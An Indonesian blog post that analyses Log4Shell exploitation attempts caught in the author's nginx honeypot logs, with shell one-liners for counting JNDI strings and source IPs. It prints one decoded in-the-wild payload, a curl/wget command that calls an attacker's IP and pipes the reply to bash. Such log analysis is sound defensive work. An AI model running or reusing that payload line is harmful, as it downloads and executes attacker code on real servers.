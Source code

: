 ```yaml
---
title: nginx log terkait log4j/ log4shell
date: 2021-12-23 22:00:00 Z
categories:
- vuln
- nginx
- log
layout: post
author: admin
comments: true
---
```


#### intro

log4j/ log4shell adalah sebuah vuln yang cukup menghebohkan di akhir tahun ini, hal ini karena aplikasi logging ini cukup banyak di pakai di software OSS, serta vuln. nya yang cukup parah.
log4j memiliki kelemahan yang membuat attacker bisa menjalankan perintah dari jauh (RCE) dengan mengirimkan perintah lookup tertentu ke service yang menjalankan log4j.
tulisan ini meramu beberapa exploitasi yang tertangkap di nginx log milik penulis di salah satu penyedia jasa cloud.
<!--more-->
#### informasi terkait log4j/ log4shell
cara kerja exploit: ![log4j](/images/log4j.jpg)

informasi cve-nya: [mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

#### nginx di azure
beberapa hari setelah berita log4j ramai di jagat infosec, dan karena masih terdapat sisa credit azure, maka penulis menjalankan aplikasi nginx di salah satu vm di azure.
sebenarnya penulis juga menjalankan inetsim, untuk mencoba peruntungan pada port lain, namun log inetsim sangat sedikit (jarang di akses), dan mungkin nanti dilakukan update pada tulisan ini setelah inetsim lebih laku.
hasil dari log selama beberapa hari tersebut membuat kita bisa mempelajari lebih jauh serangan yang dilakukan. berikut beberapa hasilnya:

1. ip berdasarkan request terbanyak yang memuat string "jndi"
```bash
cat access.log* | grep -i jndi |awk '{print $1}'| sort | uniq -c | sort -rn > top_ip_jndi.txt
```
![topip](/images/log4j2.PNG)

2. menambahkan negara ke list ip pada nomor sebelumnya
```bash
cat top_ip_jndi.txt | while read amt ip;do country=$(geoiplookup $ip | awk -v FS="(GeoIP Country Edition: |,)" '{print $3}'); echo $amt $ip $country; done;
```
![topipwithcountry](/images/log4j3.PNG)

3. melihat rincian string exploit
```bash
cat access.log* | grep -i jndi |awk '{print $7}'| sort | uniq -c | sort -rn
```
![strings](/images/log4j1.PNG)

dengan merefer ke gambar pada bagian awal, kita dapat melihat bahwa serangan ini cukup sederhana. attacker mengirimkan string lookup ke sebuah server yang dikuasai, reply dari lookup tersebut akan di eksekusi oleh server target (RCE).
namun terlihat pada gambar diatas, kebanyakan serangan tersebut hanya bertujuan recon/ mengetahui apakah server vulnerable, dan bukan  merupakan RCE.
string yang paling banyak ditemui (urutan pertama) di-encode dengan base64, yang bila di-decode menampilkan:
```bash
(curl -s 195.54.160.149:5874/[targetsvr]:80||wget -q -O- 195.54.160.149:5874/[targetsvr]:80)|bash
```
secara sederhana mengirimkan alamat [targetsvr] ke resources yang dikuasai penyerang (195.54.160.149) dengan curl/ wget.

#### penutup
walaupun cukup heboh, nampaknya tidak terlalu banyak juga penyerang yang memanfaatkan log4j. Mungkin juga ada attacker yang ketika mengenali versi nginx yang saya jalankan, dan memutuskan tidak perlu mengirimkan string "jndi" sehingga saya tidak mendeteksinya (*pendapat tidak berdasar).
sudah terdapat beberapa langkah mitigasi di dunia maya, sehingga bila anda terdampak, sangat disarankan melakukan mitigasi.
log dari inetsim sendiri akan saya update bila hasilnya menarik.
